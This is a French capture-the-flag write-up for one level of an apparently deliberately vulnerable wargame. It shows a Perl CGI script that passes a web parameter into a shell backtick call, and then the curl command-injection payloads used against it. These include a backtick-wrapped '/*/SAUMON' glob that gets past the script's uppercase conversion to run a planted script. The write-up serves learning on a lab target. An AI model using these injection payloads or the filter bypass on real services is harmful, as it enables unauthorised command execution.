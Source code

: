 Dans le répertoire de l'utilisateur, il y a un script perl.
Plus tôt, nous avions trouvés un dossier `/var/www/level12` (impossible à lire avant le level12).
À l'intérieur, le fichier est le même que celui du dossier de l'utilisateur.

Le script contient une adresse : `localhost:4646`. Étant donné qu'il est disponible dans `/var/www`, on peut imaginer qu'on peut l'executer via un appel web via curl par exemple.

Dans le script 

```pl
sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

on voit que les paramètres `x` et `y` sont utilisés, puis `..` est imprimé.

`y` est inutile ici, on ne se concentrera que sur `x`.

`@output = egrep "^$xx" /tmp/xd 2>&1;` semble etre la ligne la plus interessante, on peut voir qu'on peut injecter du code via `$xx`.

On essaye donc d'envoyer une commande via curl:
``` curl 127.0.0.1:4646?x='`getflag > /tmp/flag`' ```

ca ne fonctionne pas

On peut voir dans le code que on passe tout ce qui est en lower case en upper case et qu'il supprime tout ce qui est apres un espace.

On va donc creer un script qui va permettre d'appeler le getflag et on lui donne le droit d'execution `+x`.

`echo 'getflag > /tmp/flag' > /tmp/SAUMON && chmod +x /tmp/SAUMON`

On l'execute avec ``` curl 127.0.0.1:4646?x=`/tmp/SAUMON`' ```

Il y'a rien car tmp se transforme en TMP...

On doit donc utiliser `*` a la place qui ne peut pas etre uppercase.

``` curl 127.0.0.1:4646?x='`/*/SAUMON`' ```

Puis on affiche le fichier crée et on obtient alors le flag pour le level13.


